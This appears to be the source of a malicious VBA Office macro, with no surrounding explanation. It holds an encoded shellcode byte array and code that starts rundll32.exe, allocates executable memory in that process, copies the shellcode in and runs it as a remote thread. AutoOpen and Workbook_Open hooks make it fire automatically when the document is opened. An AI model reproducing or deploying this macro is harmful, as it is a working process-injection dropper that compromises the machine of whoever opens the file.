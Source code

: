```vba
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

